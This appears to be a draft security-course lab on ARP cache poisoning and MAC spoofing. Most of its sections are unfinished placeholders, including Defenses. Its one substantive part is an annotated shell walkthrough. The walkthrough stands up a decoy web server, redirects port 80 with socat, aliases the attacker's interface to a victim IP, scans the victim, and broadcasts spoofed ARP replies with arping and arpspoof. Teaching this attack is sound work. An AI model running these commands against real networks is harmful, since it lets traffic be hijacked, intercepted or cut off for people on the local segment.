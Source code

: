 # Performing an ARP Cache Poisoning attack

In this exercise we will pretend to be a machine on the LAN that we are not by lying about the IP address we were given by the LAN's DHCP server. This will enable us to arbitrarily redirect local network traffic to any machine we wish, including ourselves, such that we can perform network-based Denial-of-Service (DOS) or Machine-in-the-Middle (MITM) attacks. We will accomplish this by exploiting the lack of peer authentication in the Address Resolution Protocol (ARP), which maps an ethernet device's MAC address to its IP address.

Essentially, we will be performing an *ARP spoofing* attack. As this behavior is relatively conspicuous, we will also cover the basics of *MAC address spoofing*, which will assign a fake hardware address to the NIC you will use to emit spoofed ARP replies to the network. This combination of MAC and ARP spoofing enables you to masquerade as any other device on the local network segment.

# Contents

1. [Objectives](#objectives)
1. [Bill of materials](#bill-of-materials)
1. [Prerequisites](#prerequisites)
1. [Set up](#set-up)
1. [Practice](#practice)
    1. [Introduction](#introduction)
1. [Defenses](#defenses)
1. [Discussion](#discussion)
1. [Additional references](#additional-references)

# Objectives

> :construction: TK-TODO

# Bill of materials

> :construction: TK-TODO

# Prerequisites

> :construction: TK-TODO

# Set up

> :construction: TK-TODO

# Practice

> :construction: TK-TODO

## Introduction

> :construction: TK-TODO

## :construction: TK-TODO

A demo of performing an ARP cache poisoning attack.

Don't forget to spoof your own hardware address first:

* [SimpleSpoofMAC](https://github.com/meitar/SimpleSpoofMAC)

```sh
# Some assumptions for this demo:
VICTIM_IP=192.168.9.10

# Make a temporary directory to store our spoofed site.
mkdir /tmp/hijack
cd !$ # Go there.

# Place an `index.html` file in the directory that will be the
# HTTP server's document root.
echo "Expecting a local server? Surprise! It's been hijacked by an ARP cache poisoning attack." > index.html

# Start an HTTP server on port 8000 (the default).
python3 -m http.server &

# Become a `sudo`'er so that we can bind to privileged ports.
su admin

# Redirect port 80 traffic to our HTTP server on localhost.
sudo socat TCP4-LISTEN:80,reuseaddr,fork TCP:127.0.0.1:8000

# Find the IP address of the device we are going to impersonate.
dns-sd -G v4 server.local # Resolve (via mDNS) the server's domain name.

# Alias our own NIC to the IP address that we want to masquerade as.
# NOTE: This is not necessary for an MITM, since we just need to pass
# traffic back and forth between our two targets. However, as this is
# demos a *hijack* rather than an MITM, we need to respond *as* the
# target instead of passing traffic *to* the target.
sudo ifconfig en0 ${VICTIM_IP}/24 alias

# Let's take a closer look at the IP address in that command:
#
#sudo ifconfig en0 192       . 168       . 9         . 10        /24 add
#                  1100 0000 . 1010 1000 . 0000 1001 . 0000 1010
#                       ^
#                       | The 1s mean "read this bit as part of a network ID."
#                       v
#                  255       . 255       . 255       . 0
#                  1111 1111 . 1111 1111 . 1111 1111 . 0000 0000

# Now that we know the server's IP address, let's note its MAC address.
# If it responds to ICMP echo requests, `ping` will show us output:
ping $VICTIM_IP

# If it doesn't, we can do an ARP scan instead. There are many tools, but I
# like using `nmap`; its `-sn` option will do only a host discovery scan.
sudo nmap -sn -PR $VICTIM_IP # Note `-PR` is default, so can be omitted.

# An alternative tool that provides more output is `arp-scan`.
arp-scan $VICTIM_IP

# We can also use the `arping` utility for a more surgical approach:
sudo arping -c 1 -i en0 $VICTIM_IP

# We should now have an entry in our local ARP table ("ARP cache"):
arp -n $VICTIM_IP
# GNU/Linux users will probably want to do this instead:
#ip neighbour show 192.168.1.1

# To actually perform the attack (i.e., to lie about the MAC-to-IP
# mapping to the network), we can configure our attack machine to
# respond to ARP requests for the victim IP address with our own
# NIC's MAC address. This will not *necessarily* work due to the fact
# that the legitimate answer may come after our own, overriding it.
sudo arp -s $VICTIM_IP auto pub only ifscope en0

# NOTE: This is only currently easy on true UNIX, like BSD. Attempts
# to publish a proxy arp entry on GNU/Linux requires a kernel tunable
# (`net.ipv4.conf.$INTERFACE.proxy_arp`) and proper routing tables.
# If you really want to attempt this as a GNU/Linux user, you will
# ulimately want to invoke a command such as the following after setting
# up your IP routing tables appropriately. ("Appropriately" means what?)
# Some guidance at http://linux-ip.net/html/tools-ip-neighbor.html
#sudo arp -Ds 192.168.1.136 eth0 pub

# To improve the liklihood of successfully poisoning the target's ARP cache,
# we want to continuously broadcast the wrong information, repeatedly.
# The "wrong information" means an ARP packet whose payload contains:
#
# * The `Sender MAC address` field set to the MAC address of the attacker.
# * The `Sender IP address` field set to the IP address of the target.
# * The `Target MAC address` field set to the broadcast MAC address.
# * The `Target IP address` field set to 0.0.0.0.
#
# This should be sent as an ARP reply (opcode `0x02`).
#
# What this does is tell devices that the IP address of the target is
# associated with the MAC address of the attacker; hence, ARP spoofing.

# One way we could construct such an ARP packet manually is like so:
sudo arping -i en0 -U -P -S $VICTIM_IP 0.0.0.0

# More simply, we can just use the `arpspoof` tool:
arpspoof $VICTIM_IP
```

# Discussion

> :construction: TK-TODO

# Additional references

> :construction: TK-TODO
